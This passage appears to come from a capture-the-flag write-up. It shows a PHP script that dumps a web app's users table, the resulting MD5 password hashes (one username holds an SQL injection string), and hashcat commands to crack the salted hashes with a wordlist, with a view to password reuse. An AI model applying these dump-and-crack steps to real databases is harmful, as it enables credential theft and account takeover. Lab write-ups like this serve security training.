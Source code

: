 ```php
<?php
include_once 'includes/db_connect.php';

$result = pg_query($db_conn, "SELECT id, username, password FROM users");
if (!$result) {
	echo "An error occurred.\n";
	exit;
}

while ($row = pg_fetch_row($result)) {
	  echo "id: $row[0], username: $row[1], password: $row[2]";
	    echo "<br />\n";
}
?>
```

Running it gives us a dump of users and password hashes. Yay!:

```bash
bash-5.1$ php db.php 
id: 1, username: administrator, password: 15657792073e8a843d4f91fc403454e1<br />
id: 2, username: bill, password: 13edad4932da9dbb57d9cd15b66ed104<br />
id: 3, username: michael, password: bd3dad50e2d578ecba87d5fa15ca5f85<br />
id: 4, username: john, password: a7eed23a7be6fe0d765197b1027453fe<br />
id: 5, username: dmytro, password: 5d15340bded5b9395d5d14b9c21bc82b<br />
id: 233, username: aaa, password: b2fc457a3f98256a392ff634ec615fc9<br />
id: 239, username: aaa'or'0, password: b2fc457a3f98256a392ff634ec615fc9<br />
id: 240, username: myuser, password: 876a42b400bcc73f92243010a0bb8978<br />
id: 246, username: myuser2, password: 876a42b400bcc73f92243010a0bb8978<br />
id: 247, username: 4567, password: b2fc457a3f98256a392ff634ec615fc9<br />
id: 86, username: x, password: 6d91921f04e89b1c6760df9b12b7ac1f<br />
id: 201, username: admin, password: 3b82b44090ee0a14e0f24172788e0bb8<br />
id: 258, username: 9999, password: b2fc457a3f98256a392ff634ec615fc9<br />
id: 147, username: test, password: 84c6e0688b2ef52ff1aeb922196d4e5a<br />
id: 264, username: 564, password: b2fc457a3f98256a392ff634ec615fc9<br />
id: 265, username: me@user.com, password: 8f864e441b88a597a2264551d1bfa831<br />
id: 159, username: testy, password: 2197435d3760c0397cf088552a4845bd<br />
id: 266, username: mycooluser, password: d80031863eb94bb355f5a04f415a315f<br />
id: 148, username: test2, password: 84c6e0688b2ef52ff1aeb922196d4e5a<br />
id: 170, username: tefbcb, password: 2197435d3760c0397cf088552a4845bd<br />
```

Note our user flag is in `/home/bill/user.txt`, and there is a database user for the web-app also named bill - so maybe/likely the same user, and perhaps they reused their password?

As a reminder, our password hashing function is `md5(db_salt . _POST['password'])`, so we use mode 20 within hashcat:

```bash
# Get the passwords above, and redirect to hashes.txt with our NaCl salt
$pcregrep -o1 "password:\s(\w+)" users.txt |sed -e 's/$/:NaCl/' > hashes.txt

$hashcat -a 0 -m 20 hashes.txt /usr/share/wordlists/rockyou.txt
```
